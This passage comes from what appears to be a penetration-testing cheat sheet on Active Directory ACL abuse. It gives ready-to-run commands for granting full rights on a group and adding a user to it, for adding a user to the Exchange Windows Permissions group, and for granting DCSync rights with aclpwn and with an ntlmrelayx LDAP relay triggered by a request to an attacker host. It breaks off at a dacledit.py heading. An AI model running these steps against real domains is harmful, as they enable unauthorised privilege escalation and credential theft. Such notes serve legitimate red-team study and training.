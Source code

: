 The attacker can take the full control of discovered groups and then add a users to them:

```
PV3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PV3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

{% hint style="info" %}
Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purge
Cmd > gpupdate /force
Cmd > dir \\dc1.megacorp.local\c$
```
{% endhint %}




## Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```



### Add DCSync Rights

Using **aclpwn.py**:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```

Using Impacket [**ntlmrelayx.py**](https://github.com/fortra/impacket/blob/50c76958706577a5005bec2ee1fda9e9fa669a65/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L293):

```
PS > IWR http://10.10.13.37 -UseDefaultCredentials
$ ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs
```

Using Impacket **dacledit.py**:

